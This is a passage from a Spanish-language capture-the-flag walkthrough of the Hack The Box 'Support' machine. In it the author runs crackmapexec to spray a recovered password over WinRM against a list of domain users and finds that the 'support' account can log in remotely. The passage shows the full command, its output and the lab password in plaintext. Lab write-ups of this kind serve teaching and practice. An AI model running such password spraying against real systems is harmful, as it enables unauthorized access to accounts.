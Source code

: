 - Vamos a ver si podemos conectarnos con `evil-winrm` con la contraseña que tenemos para ver si le pertenece a otro usuario por que con `rpcclient` vimos que es de `support`.

```bash
➜  content crackmapexec winrm 10.129.245.29 -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
SMB         10.129.245.29   5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.129.245.29   5985   DC               [*] http://10.129.245.29:5985/wsman
WINRM       10.129.245.29   5985   DC               [-] support.htb\Administrator:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\Guest:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\krbtgt:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\ldap:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
WINRM       10.129.245.29   5985   DC               [-] support.htb\smith.rosario:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\hernandez.stanley:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\wilson.shelby:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\anderson.damian:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\thomas.raphael:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\levine.leopoldo:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\raven.clifton:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\bardot.mary:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\cromwell.gerard:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\monroe.david:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\west.laura:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\langley.lucy:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\daughtler.mabel:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\stoll.rachelle:Ironside47pleasure40Watchful
WINRM       10.129.245.29   5985   DC               [-] support.htb\ford.victoria:Ironside47pleasure40Watchful
```

- Nos podemos conectar gracias a que el usuario **support** pertenece al grupo `Remote Management Users`.
